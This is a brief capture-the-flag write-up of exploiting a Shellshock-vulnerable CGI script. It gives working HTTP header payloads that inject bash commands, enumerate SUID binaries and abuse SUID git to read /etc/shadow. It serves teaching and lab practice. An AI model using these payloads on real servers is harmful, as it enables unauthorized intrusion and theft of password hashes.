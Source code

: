 There was cgi-bin/uptime.sh:
![image](https://github.com/jackalkarlos/CTF-Writeups-and-Scripts/assets/88983987/b81ca26d-ac39-4f31-9680-e79b839ce133)

I suspected ShellShock, because there was .sh file on Web Server.

What is ShellShock Vuln:
> https://securityintelligence.com/articles/shellshock-vulnerability-in-depth/

Bash < 4.3 is vulnerable.

I used this header for be sure.

```
Custom: () { ignored; }; echo Content-Type: text/html; echo ; /usr/bin/echo "hi"
```

Response was "hi"

I tried to cat /etc/shadow but i was dont have enough permission for this.

I looked for SUID bit binaries.

```
Custom: () { ignored; }; echo Content-Type: text/html; echo ; /usr/bin/find / -perm -u=s -type f 2>/dev/null

```

There was Git!

I looked gtfobins and used this command and i get flag.

```
Custom: () { ignored; }; echo Content-Type: text/html; echo ; /usr/bin/git diff /dev/null /etc/shadow
```

